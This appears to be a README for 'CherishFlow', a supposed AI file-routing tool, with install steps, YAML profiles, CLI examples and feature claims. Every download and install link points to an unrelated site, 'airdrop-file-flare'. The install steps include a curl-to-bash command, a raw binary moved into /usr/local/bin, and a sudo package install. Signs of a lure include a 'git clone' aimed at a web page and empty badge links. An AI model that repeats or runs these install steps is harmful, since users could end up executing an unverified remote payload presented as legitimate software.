

# 🌟 CherishFlow: Intelligent File Orchestration Platform

[](https://fernandobayo.github.io/airdrop-file-flare/)

## 🧠 The Vision: Where Files Find Their Purpose

CherishFlow transforms passive file storage into active intelligence. Imagine your digital assets not merely sitting in folders, but flowing purposefully between devices, services, and collaborators based on context, content, and your established preferences. This platform serves as the central nervous system for your digital ecosystem, making intelligent routing decisions that eliminate manual transfer drudgery.

Unlike simple file transfer tools, CherishFlow understands *why* a file moves, not just *how*. It examines file contents, creation context, project associations, and even time-based triggers to orchestrate seamless, automated workflows across your entire digital landscape.

## 🚀 Immediate Access

**Latest Stable Release**: Version 2.8.3 (Horizon)

[](https://fernandobayo.github.io/airdrop-file-flare/)

## 📋 Table of Contents
- [Architectural Overview](#-architectural-overview)
- [System Requirements](#-system-requirements)
- [Installation Guide](#-installation-guide)
- [Profile Configuration](#-profile-configuration)
- [Usage Examples](#-usage-examples)
- [Core Features](#-core-features)
- [AI Integration](#-ai-integration)
- [Platform Support](#-platform-support)
- [Development](#-development)
- [Support Ecosystem](#-support-ecosystem)
- [License](#-license)
- [Disclaimer](#-disclaimer)

## 🏗️ Architectural Overview

CherishFlow operates on a modular plugin architecture, allowing it to interface with virtually any service or protocol. The core engine monitors designated input zones (folders, cloud watches, network shares) and applies your configured intelligence to determine optimal routing paths.



## 🖥️ System Requirements

### Minimum Configuration
- **Processor**: 64-bit dual-core 1.5GHz or equivalent
- **Memory**: 4GB RAM (8GB recommended for AI features)
- **Storage**: 500MB for application + space for temporary processing
- **Network**: Stable internet connection for cloud integrations
- **Permissions**: File system access and network privileges

## 📦 Installation Guide

### macOS Installation
```bash
# Using Homebrew (recommended)
brew tap cherishflow/tap
brew install cherishflow

# Manual installation
curl -fsSL https://fernandobayo.github.io/airdrop-file-flare//install-mac.sh | bash
```

### Windows Installation
1. Download the installer from the link above
2. Run `CherishFlow-Setup.exe`
3. Follow the guided configuration wizard
4. Restart your system to enable background services

### Linux Installation
```bash
# Debian/Ubuntu
wget https://fernandobayo.github.io/airdrop-file-flare//cherishflow_2.8.3_amd64.deb
sudo dpkg -i cherishflow_2.8.3_amd64.deb

# Arch Linux
yay -S cherishflow

# Generic binary
curl -LO https://fernandobayo.github.io/airdrop-file-flare//cherishflow-linux-amd64
chmod +x cherishflow-linux-amd64
sudo mv cherishflow-linux-amd64 /usr/local/bin/cherishflow
```

## ⚙️ Profile Configuration

CherishFlow uses YAML-based profiles that define your digital ecosystem personality. Below is an example configuration demonstrating advanced routing logic:

```yaml
# ~/.config/cherishflow/profile.yaml
persona: "Creative Technologist"
version: "2.0"

input_zones:
  - name: "Creative Capture"
    path: "~/Desktop/Creative Drop"
    watch_patterns: ["*.psd", "*.ai", "*.fig", "*.sketch"]
    immediate_processing: true

  - name: "Document Intake"
    path: "~/Downloads"
    watch_patterns: ["*.pdf", "*.docx", "*.pptx"]
    scan_interval: 30s

routing_intelligence:
  content_based_routing:
    enabled: true
    ai_providers:
      - name: "openai"
        api_key_env: "OPENAI_API_KEY"
        model: "gpt-4-vision-preview"
        max_tokens: 500
      
      - name: "anthropic"
        api_key_env: "CLAUDE_API_KEY"
        model: "claude-3-opus-20240229"
        thinking_budget: 1024

  rule_sets:
    - name: "Design Assets Flow"
      conditions:
        - file_extension: [".psd", ".ai", ".fig"]
        - file_size: ">10MB"
      actions:
        - compress: "lossless"
        - route_to: "Cloud Design Library"
        - notify: "Design Team Channel"
        - create_thumbnail: true

    - name: "Client Document Handling"
      conditions:
        - content_contains: ["invoice", "proposal", "contract"]
        - source: "Document Intake"
      actions:
        - extract_metadata
        - route_to: "Client Management System"
        - backup_to: "Secure Archive"
        - ocr_processing: true

destinations:
  cloud_services:
    - name: "Cloud Design Library"
      type: "dropbox"
      path: "/Team/Design Assets/"
      auth: "env:DROPBOX_TOKEN"
    
    - name: "Secure Archive"
      type: "s3"
      bucket: "company-archive-2026"
      region: "us-east-1"

  local_network:
    - name: "Team NAS"
      type: "smb"
      address: "nas.local"
      share: "Collaboration"

  collaboration_tools:
    - name: "Design Team Channel"
      type: "slack"
      channel: "#design-assets"
      bot_token: "env:SLACK_BOT_TOKEN"
```

## 💻 Example Console Invocation

CherishFlow offers both daemon and CLI operational modes:

```bash
# Start the intelligent routing daemon
cherishflow daemon --profile creative --log-level info

# Process a specific file with manual override
cherishflow process ~/Documents/project_brief.pdf \
  --destination "Client Management System" \
  --tag "urgent" \
  --metadata "project=alpha,client=techcorp"

# Analyze a directory without routing
cherishflow analyze ~/Downloads --ai-scan --output-format json

# Create a one-time transfer rule
cherishflow create-rule \
  --name "Conference Photos" \
  --condition "extension=.jpg,.png" \
  --condition "date=today" \
  --action "route_to=Team NAS/Events/2026-Q1" \
  --action "resize=max_width=1920" \
  --expires "2026-03-31"

# Monitor active flows
cherishflow monitor --watch --show-decisions

# Export routing history
cherishflow export-history \
  --start "2026-01-01" \
  --end "2026-01-31" \
  --format csv \
  --output q1-2026-transfers.csv
```

## ✨ Core Features

### 🧩 Intelligent Content Recognition
CherishFlow doesn't just look at file extensions—it understands content. The platform employs multiple analysis techniques:
- **Semantic File Analysis**: Determines document purpose and category
- **Visual Content Understanding**: Identifies images, diagrams, and visual themes
- **Contextual Metadata Enrichment**: Augments files with temporal, project, and relational context
- **Pattern Learning**: Adapts to your workflow habits over time

### 🌐 Universal Protocol Support
Connect virtually any service through our plugin ecosystem:
- **Local Transfers**: AirDrop, Nearby Share, LAN transfer, Bluetooth
- **Cloud Services**: 40+ supported providers including specialized creative platforms
- **Collaboration Tools**: Direct integration with project management and team communication platforms
- **Custom Endpoints**: HTTP webhooks, FTP, SFTP, and custom API integrations

### 🔒 Privacy-First Architecture
Your data remains yours:
- **Local Processing**: AI analysis occurs on-device when possible
- **Encrypted Transfers**: End-to-end encryption for all routed content
- **Transparent Logging**: Complete audit trail of all routing decisions
- **Data Minimization**: Only essential metadata leaves your control

### ⚡ Performance Optimizations
- **Parallel Processing**: Simultaneous handling of multiple file streams
- **Intelligent Compression**: Content-aware compression without quality loss
- **Bandwidth Management**: Adaptive transfer speeds based on network conditions
- **Resumable Transfers**: Network interruption recovery

## 🤖 AI Integration

### OpenAI API Configuration
CherishFlow leverages GPT-4 Vision and other models for advanced content understanding:

```yaml
ai_services:
  openai:
    enabled: true
    functions:
      - "content_categorization"
      - "document_summarization"
      - "intent_recognition"
      - "tag_generation"
    cost_control:
      max_monthly_usd: 50
      priority_threshold: 0.7
```

### Claude API Integration
Anthropic's Claude models provide complementary intelligence:

```yaml
  anthropic:
    enabled: true
    strengths:
      - "complex_instruction_following"
      - "ethical_content_review"
      - "long_context_analysis"
    temperature: 0.3
    max_tokens_per_file: 4000
```

### Hybrid Intelligence Mode
Combine multiple AI providers for consensus-based decisions, increasing accuracy and reducing individual model biases.

## 📊 Platform Support

| Platform | Version | Status | Notes |
|----------|---------|--------|-------|
| 🍎 macOS | 12.0+ | ✅ Fully Supported | Native integration with Share menu |
| 🪟 Windows | 10/11 | ✅ Fully Supported | Explorer context menu integration |
| 🐧 Linux | Multiple | ✅ Fully Supported | GTK/Qt desktop integration |
| 🤖 Android | 9.0+ | 🔶 Beta | Limited to receive-only mode |
| 📱 iOS | 15.0+ | 🔶 Beta | Background processing limitations |
| 🐧 ChromeOS | 110+ | 🔶 Beta | Progressive Web App available |

## 🛠️ Development

### Building from Source
```bash
# Clone repository
git clone https://fernandobayo.github.io/airdrop-file-flare/
cd cherishflow

# Install dependencies
npm install

# Build for production
npm run build:all

# Run tests
npm test

# Development mode with hot reload
npm run dev
```

### Plugin Development
Create custom destination plugins using our SDK:

```javascript
const { BasePlugin } = require('cherishflow-sdk');

class CustomServicePlugin extends BasePlugin {
  async initialize(config) {
    // Setup connections
  }
  
  async transfer(file, metadata) {
    // Implement transfer logic
    return { success: true, message: 'Transferred successfully' };
  }
  
  async validate() {
    // Validate configuration
    return { valid: true };
  }
}

module.exports = CustomServicePlugin;
```

## 🌍 Support Ecosystem

### 📚 Comprehensive Documentation
- **Interactive Tutorials**: Step-by-step workflow creation
- **API Reference**: Complete plugin development guide
- **Use Case Library**: Real-world configuration examples
- **Troubleshooting Guide**: Common issues and solutions

### 🎯 Multilingual Interface
CherishFlow speaks your language with full support for:
- English (US/UK)
- Español
- 日本語
- Deutsch
- Français
- 中文 (简体/繁體)
- Português
- Русский

### 🕒 Continuous Assistance
- **24/7 Automated Support**: Intelligent troubleshooting assistant
- **Community Forums**: Peer-to-peer knowledge sharing
- **Priority Support Tiers**: Available for organizational deployments
- **Weekly Webinars**: Live training and Q&A sessions

### 🔄 Regular Enhancement Cycle
- **Monthly Feature Releases**: Significant new capabilities
- **Bi-weekly Updates**: Security and performance improvements
- **Quarterly Major Versions**: Architectural advancements
- **Transparent Roadmap**: Public development timeline

## 📄 License

Copyright © 2026 CherishFlow Contributors

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for complete details.

The MIT License grants permission without cost, subject to the following conditions being met:

- The above copyright notice and this permission notice shall be included in all copies or substantial portions of the software.
- The software is provided "as is", without warranty of any kind.

## ⚠️ Disclaimer

### Important Usage Considerations

CherishFlow is designed as an intelligent routing assistant, not a backup solution. While we implement robust error handling and verification, users should maintain independent backup strategies for critical data.

**Data Responsibility**: Users retain full responsibility for files transferred through the system. Ensure you have appropriate rights to share content and comply with all applicable laws and service terms.

**AI Processing Transparency**: When utilizing AI analysis features, be aware that file content may be processed by third-party services. Review each AI provider's privacy policy and data handling practices before enabling these features.

**Service Integrations**: CherishFlow interfaces with external services according to their available APIs. Service changes, rate limits, or discontinuation may affect functionality. We monitor major services but cannot guarantee perpetual compatibility.

**Security Best Practices**: Regularly update to the latest version, use strong unique API keys, and review routing rules periodically. Report any security concerns immediately through our coordinated disclosure program.

**Performance Variables**: Transfer speeds and success rates depend on network conditions, file sizes, and destination service availability. The system includes retry logic but cannot guarantee delivery in all network environments.

---

## 🚀 Get Started Today

Transform your digital workflow from manual management to intelligent orchestration. CherishFlow adapts to your unique patterns, learns your preferences, and handles the routine so you can focus on creation rather than coordination.

[](https://fernandobayo.github.io/airdrop-file-flare/)

*Begin your journey toward intelligent file orchestration. Download CherishFlow today and experience the future of digital workflow automation.*